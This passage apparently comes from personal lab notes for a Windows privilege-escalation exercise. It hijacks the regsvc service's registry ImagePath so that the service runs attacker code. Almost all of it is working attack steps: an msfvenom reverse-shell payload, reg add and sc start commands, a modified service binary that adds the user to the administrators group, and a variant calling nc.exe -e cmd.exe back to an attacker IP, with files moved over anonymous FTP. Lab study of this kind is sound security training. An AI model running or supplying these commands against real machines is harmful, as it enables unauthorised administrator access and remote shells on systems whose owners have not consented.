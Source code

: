2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o x.exe
```
3. Copy the generated file `x.exe`, to the Windows VM.

### Windows VM

1. Place `x.exe` in `'C:\Temp'`
2. Open command prompt at type: 
```console
C:\Temp> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```
3. In the command prompt type: 
```console
C:\Temp> sc start regsvc
# If it doesnt work try restaring the service and perform the exploit egain
```

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/80be99bc-4576-4ddb-a3d2-a2880c33864b)


### Kali VM

1. Wait for a reverse shell on your kali machine.

### Another approach using windows_service.c file

1. Transfer the file from Windows to Kali. Use an FTP server to do that
-     python -m pyftpdlib -p 21 --write    (pip3 install pyftpdlib  #to download it) (run it on kali)
2. head to C:\Tools\Source and connect to the kali FTP server, anonymous login, then put the windows_service.c file
-     ftp 10.10.16.4 | username:anonymous | put windows_service.c
edit the windows_service file and replace the system("whoami > ..") with system("cmd.exe /k net localgroup administrator user /add"). 
3. compile the C file
-     w64-mingw32-gcc windows_service.c -o raman.exe     (sudo apt install gcc-mingw-w64)
4. move the compiled c file to Windows then run it using
-     reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc  /v ImagePath /t REG_EXPAND_SZ /d c:\temp\raman.exe /f
-     sc start regsvc
5. net localgroup administrator

### you can use the above approach by generating a reverse shell instead of adding a user
1. Transfer the file from Windows to Kali. Use an FTP server to do that
-     python -m pyftpdlib -p 21 --write    (pip3 install pyftpdlib  #to download it) (run it on kali)
2. head to C:\Tools\Source and connect to the kali FTP server, anonymous login, then put the windows_service.c file
-     ftp 10.10.16.4 | username:anonymous | put windows_service.c
3. edit the windows_service file and replace the system("whoami > ..") with system("nc.exe -e cmd.exe <Attacker_IP> <PORT>").
4. compile the C file
-     w64-mingw32-gcc windows_service.c -o raman.exe     (sudo apt install gcc-mingw-w64)
5. move the compiled c file to Windows then run it using
-     reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc  /v ImagePath /t REG_EXPAND_SZ /d c:\temp\raman.exe /f
-     sc start regsvc 

